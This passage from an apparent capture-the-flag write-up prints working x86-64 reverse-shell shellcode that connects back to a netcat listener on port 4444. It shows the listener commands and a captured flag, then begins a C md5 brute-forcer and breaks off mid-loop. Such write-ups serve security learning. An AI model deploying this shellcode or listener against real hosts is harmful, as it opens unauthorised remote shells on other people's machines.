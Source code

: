 ```
$ nc -l 4444
cat flag.txt
```

The `cat flag.txt` will be sitting in buffer and will go through when the remote server connects.

From your local machine edit `shellcode.py` and put in the IP address of your cloud VM, then run it:

```
echo "my test flag" >flag.txt
./shellcode.py
```

First you'll get the shellcode:

```
Number of instructions: 37

Shellcode length: 65

shellcode = 	b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e"
shellcode += 	b"\x0f\x05\x97\xb0\x2a\x48\xb9\xfe\xff\xee"
shellcode += 	b"\xa3\xed\x24\x67\x29\x48\xf7\xd9\x51\x54"
shellcode += 	b"\x5e\xb2\x10\x0f\x05\x6a\x03\x5e\xb0\x21"
shellcode += 	b"\xff\xce\x0f\x05\x75\xf8\x99\xb0\x3b\x52"
shellcode += 	b"\x48\xb9\x2f\x62\x69\x6e\x2f\x2f\x73\x68"
shellcode += 	b"\x51\x54\x5f\x0f\x05"

If you want to debug, attach the debugger to the python process with pid 23541 then press enter.
```

At this point just press [return] and check your cloud VM session, it should have _captured the flag:_

```
$ nc -l 4444
cat flag.txt
my test flag
```

Well that was stupid simple.


#### Brute-force an md5sum

> Python was taking too long for this, so C it is:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <openssl/md5.h>

int main()
{
    unsigned int i,j,ret;
    FILE *f;
    unsigned char buf[70];
    unsigned char result[MD5_DIGEST_LENGTH];

    f = fopen("shellcode","rb");
    ret = fread(buf,65,1,f);
    fclose(f);
    buf[69]=buf[70]=0;

    for(i=0;i<(1 << 31);i++) {
        buf[65]=i % 0xff;
        buf[66]=(i >> 8) & 0xff;
```